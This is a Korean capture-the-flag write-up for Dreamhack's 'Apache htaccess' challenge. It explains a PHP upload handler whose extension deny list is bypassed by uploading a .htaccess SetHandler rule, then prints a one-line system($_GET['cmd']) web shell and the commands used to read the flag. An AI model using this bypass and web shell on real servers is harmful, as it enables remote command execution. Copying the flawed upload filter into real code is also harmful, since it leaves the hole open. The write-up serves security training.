 # [Dreamhack Wargame] Apache htaccess
### [🚩Apache htaccess](https://dreamhack.io/wargame/challenges/418/)
  <img width="1071" alt="Apache htaccess_description" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/811de14b-5ae5-49e4-b5e7-e9be87b01860">

<br/><br/>

## 문제 파일(upload.php) 분석
```php
<?php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml"); // 필터링할 확장자 리스트

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name); // 파일 이름을 "."을 기준으로 분할함
        $extension = end($temp); // 분할한 결과의 마지막 요소(확장자)를 가져옴
       
        if(in_array($extension, $deniedExts)){ // 필터링할 확장자의 목록에 현재 파일의 확장자가 포함되어 있는 경우
            die($extension . " extension file is not allowed to upload ! "); // 업로드 불가능
        }else{ // 필터링할 확장자의 목록에 현재 파일의 확장자가 포함되어 있지 않은 경우
            move_uploaded_file($tmp_name, "upload/" . $name); // 입력받은 파일 이름을 이용해 /upload/ 경로에 파일을 업로드함
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>"; // 파일 업로드 위치를 화면에 출력함
        }
    }
}else {
    echo "File is not selected";
}
?>
```
* 문제 파일 분석에 필요한 php 개념
    - ```explode``` 함수: 문자열을 주어진 인자 값을 기준으로 분할하는 함수
        ```php
        explode(string $separator, string $string, int $limit = PHP_INT_MAX): array
        ```
        + 문자열 구분 기호($separator)을 기준으로 문자열($string)을 분할하여 형성된 문자열의 배열을 반환함
        + 참고: 📚 [PHP: explode - Manual](https://www.php.net/manual/en/function.explode.php)
    - ```end``` 함수: 배열의 내부 포인터를 마지막 요소로 설정하는 함수
        ```php
        end(array|object &$array): mixed
        ```
        + 배열의 내부 포인터를 마지막 요소로 이동하고 해당 값을 반환함
        + 참고: 📚 [PHP: end - Manual](https://www.php.net/manual/en/function.end)

<br/><br/>

## 문제 풀이
### 취약점이 존재하는 부분
php, php3, php4 등의 확장자를 필터링하고 있지만 .htaccess 파일을 사용해 설정 파일을 관리하고 있으므로 이를 이용해 ```.php``` 확장자 외의 다른 확장자를 PHP 스크립트로 해석하도록 만들어 확장자 우회를 통해 웹 셸을 실행시킬 수 있음

<br/><br/>

### 익스플로잇
1. 아래의 내용이 들어간 .htaccess 파일을 만들고 이를 업로드함
    ```Apache
    <Files "exploit.test">
        SetHandler application/x-httpd-php
    </Files>
    ```
    - exploit.test라는 이름을 가진 파일에 대한 요청이 들어오면 ```SetHandler```에 의해 명시된 핸들러가 실행되므로 PHP 스크립트로 해석하여 이를 실행함

2. 아래와 같이 exploit.test 파일을 만들고 이 웹 셸을 업로드함
    ```php
    // exploit.test
    <?php
        system($_GET['cmd']);
    ?>
    ```
    + 업로드된 웹 셸 파일은 ```/upload/exploit.test```에 존재함

3. ```upload/exploit.test```의 cmd 파라미터 값으로 플래그를 획득하기 위한 명령어를 입력함
    - ```cmd``` 파라미터의 값으로 ```ls -al /```을 입력한 후 요청을 보내 플래그 파일의 위치를 찾음
        +  ```/flag```에 플래그 파일이 존재하며, 실행 권한만 존재하기 때문에 플래그 파일을 실행해야 플래그를 획득할 수 있음을 알 수 있음
    - 플래그 파일의 실행을 위해 ```cmd``` 파라미터의 값으로 ```/flag```를 입력한 후 요청을 보내면 플래그 파일이 실행되어 플래그를 획득할 수 있음


